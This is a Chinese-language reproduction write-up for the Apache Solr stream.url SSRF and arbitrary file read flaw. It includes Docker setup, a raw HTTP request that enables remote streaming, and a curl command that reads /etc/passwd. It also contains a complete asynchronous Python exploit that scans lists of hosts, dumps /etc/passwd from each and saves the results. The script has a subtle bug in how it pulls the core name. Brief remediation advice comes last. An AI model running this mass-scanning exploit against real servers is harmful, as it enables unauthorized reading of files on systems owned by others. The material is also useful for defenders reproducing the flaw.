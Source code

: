 # Apache-Solr 任意文件读取漏洞复现
===========================

## 漏洞描述

Apache Solr是一个开源的搜索服务，使用Java语言开发。Apache Solr的某些功能存在过滤不严格，在Apache Solr未开启认证的情况下，攻击者可直接构造特定请求开启特定配置，并最终造成SSRF或文件读取漏洞。

## 漏洞评级

Apache Solr stream.url SSRF与任意文件读取漏洞 中危

## 影响版本

Apache Solr 所有版本

## 安全版本

官方不予修复，暂无安全版本。

## 复现过程

### 环境搭建

```bash
docker search solr
docker pull solr
docker run -d -p 8983:8983 solr
docker  exec  -it  实例id  /bin/bash
cp -r server/solr/configsets/_default/conf /var/solr/data/test1
```

参考：http://www.bubuko.com/infodetail-3118740.html

### 漏洞复现

首先获取core

![](resource/Apache-Solr任意文件读取漏洞复现/media/1.png)
core
以my_core测试为例，

```bash
POST /solr/my_core/config HTTP/1.1
Host: x.x.x.x:8983
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 84
{"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true}}
```

读取文件

```bash
 curl "http://ip:8983/solr/my_core/debug/dump?param=ContentStreams" -F "stream.url=file:///etc/passwd"
```

![](resource/Apache-Solr任意文件读取漏洞复现/media/2.png)
读取结果
### EXP

环境要求：python3.8+

使用方法：python3 solr.py --help

```python
#!/usr/bin/python
# coding: UTF-8
import argparse
import asyncio
import json
import pathlib
from typing import Tuple
from urllib.parse import urlparse

import httpx


class URLAction(argparse.Action):
    def __call__(self, parser, namespace, values, option_string=None):
        if not urlparse(values):
            raise ValueError("Not a valid url!")
        setattr(namespace, self.dest, values)


class FILEAction(argparse.Action):
    def __call__(self, parser, namespace, values, option_string=None):
        if not pathlib.Path(values).exists():
            raise ValueError("File not exists!")
        setattr(namespace, self.dest, values)


parser = argparse.ArgumentParser(description="Solr Poc")
parser.add_argument("--host", type=str, action=URLAction, help="target host uri")
parser.add_argument("--file", type=str, action=FILEAction, help="target host file")
parser.add_argument("--conn", type=int, default=10, help="asyncio max connetions")
args = parser.parse_args()


SEM = asyncio.Semaphore(args.conn)
RESULT = {}


async def check(host: str) -> Tuple[str, bool]:
    status = False
    async with SEM:
        async with httpx.AsyncClient(base_url=host) as client:
            try:
                core_data = (
                    await client.get(
                        "/solr/admin/cores?indexInfo=false&wt=json", timeout=3
                    )
                ).json()
            except httpx.ReadTimeout:
                print(f"{host} TimeOut!")
                status = "TimeOut"
            else:
                if (status := core_data["status"]) :
                    core = status.keys()[0]
                    await client.post(
                        f"/solr/{core}/config",
                        json={
                            "set-property": {
                                "requestDispatcher.requestParsers.enableRemoteStreaming": "true"
                            }
                        },
                    )
                    result_data = (
                        await client.post(
                            url=f"/solr/{core}/debug/dump?param=ContentStreams",
                            data={"stream.url": "file:///etc/passwd"},
                        )
                    ).json()
                    if (streams := result_data["streams"]) :
                        print(streams[0]["stream"])
                        status = True
            finally:
                RESULT[host] = status
                return host, status


async def loop(urls):
    await asyncio.gather(*list(map(check, urls)))


def main():
    result_file = pathlib.Path("solr_main.json")
    try:
        urls = set()
        if args.host:
            urls.add(args.host)
        if args.file:
            with pathlib.Path(args.file).open("r") as file:
                urls = urls.union(
                    {url for line in file if urlparse((url := line.strip()))}
                )
        print(f"tasks: {len(urls)}")
        asyncio.run(loop(urls))
    except KeyboardInterrupt:
        pass
    finally:
        with result_file.open("w") as file:
            file.write(json.dumps(RESULT, indent=4, ensure_ascii=True))
```

### 修复建议

* 增加身份验证/授权，可参考官方文档：https://lucene.apache.org/solr/guide/8_6/authentication-and-authorization-plugins.html

* 禁止Solr API 以及管理 UI 直接对公网开放。设置防火墙，以便只允许受信任的计算机和人员访问。

### Reference

https://m.aliyun.com/doc/notice_list/9213612.html
https://www.o2oxy.cn/3227.html
